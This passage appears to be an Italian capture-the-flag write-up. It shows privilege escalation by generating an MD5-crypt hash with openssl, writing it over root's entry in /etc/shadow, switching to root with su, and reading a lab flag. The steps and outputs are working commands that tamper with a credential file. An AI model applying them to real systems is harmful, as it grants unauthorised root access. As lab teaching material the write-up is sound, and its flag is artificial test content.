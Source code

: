 ## Exploitation 5: Privilege Escalation via `/etc/shadow` Password Injection

### 1. Generare un hash di password compatibile con `/etc/shadow`  
Usiamo **OpenSSL** per creare un hash MD5-crypt della password `password123`, con salt `abc`:  
```bash
openssl passwd -1 -salt abc password123
# Output: $1$abc$UWUoROXzUCsLsVzI0R2et.
```

---

### 2. Sostituire l’hash di root in `/etc/shadow`

Apriamo il file `/etc/shadow` in **nano** (o l’editor preferito), cercando la riga dell’utente `root`:

```bash
nano /etc/shadow
```

* Trova la riga che inizia con `root:`
* Sostituisci tutto l’hash tra il primo e il secondo due-punti (`:`) con il nuovo hash `$1$abc$UWUoROXzUCsLsVzI0R2et.`
* Salva e chiudi l’editor.

---

### 3. Eseguire il comando `su` per diventare root

Ora, invocando **su**, basta inserire la password in chiaro `password123`:

```bash
su
Password: password123
```

Se l’hash è corretto, otterrai i privilegi di root.

---

### 4. Verifica dell’accesso root e lettura della flag

Con i permessi di super-utente, puoi esplorare il filesystem di root:

```bash
ls
cd /root
cat flag.txt
# FLAG5_12f5f00e4f8a462794b71d72e0e5d64d
```

---

### Spiegazione Semplice

1. **Hashing**: abbiamo creato un hash MD5-crypt (formato `$1$…`) identico a quello usato dal sistema per le password in `/etc/shadow`.
2. **Iniezione**: modificando `/etc/shadow`, abbiamo sostituito l’hash di root con il nostro, facendo sembrare che `password123` fosse la password legittima di root.
3. **Escalation**: con `su` e `password123`, il sistema ci riconosce come root.
4. **Flag**: infine, leggiamo la flag di root in `/root/flag.txt`.

Questo metodo funziona solo se hai già accesso come utente con permessi di scrittura su `/etc/shadow` 
